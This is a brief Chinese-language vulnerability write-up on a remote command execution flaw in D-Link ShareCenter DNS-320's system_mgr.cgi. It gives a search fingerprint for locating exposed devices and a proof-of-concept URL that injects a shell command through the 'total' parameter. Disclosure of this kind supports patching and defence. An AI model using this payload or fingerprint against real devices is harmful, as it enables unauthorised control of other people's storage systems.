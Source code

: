 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
D-Link ShareCenter DNS-320
```

## 网络测绘

```
app="D_Link-DNS-ShareCenter"
```

## 漏洞复现

登录页面如下

![](images/202202162224540.png)

漏洞POC为

```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![](images/202202162224614.png)